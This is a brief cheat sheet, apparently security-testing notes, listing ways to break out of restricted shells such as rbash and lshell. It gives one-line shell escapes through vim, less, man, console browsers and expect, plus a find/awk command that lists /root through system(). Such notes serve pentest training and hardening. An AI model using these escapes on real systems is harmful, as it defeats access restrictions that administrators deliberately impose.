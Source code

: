 **Common Restricted Shells**
- rbash
- rzsh
- lshell (Limited Shell)
- rssh (Restricted Secure Shell)

## How To

**Console Editors** (ed / ne / nano / pico / vim)
- :set shell=/bin/sh; shell
- :!/bin/sh
- !'/bin/sh'

**Pager Commands** (more / less)
- open a file long enough to invoke pager
- !'sh'
- v (vim editor)

**man and pinfo**
- invoke man page
- use more / less pager (start search "/" )

**Console Browsers** (links / lynx / elinks)
- open website (e.g. google.com)
- hit ESC, this will lead to configuration menu
- hit FILE > OS Shell

**find command**
- `find . -name [file] -exec awk 'BEGIN {system("cd /root; ls")}'`

**expect**
- `expect; spawn sh`
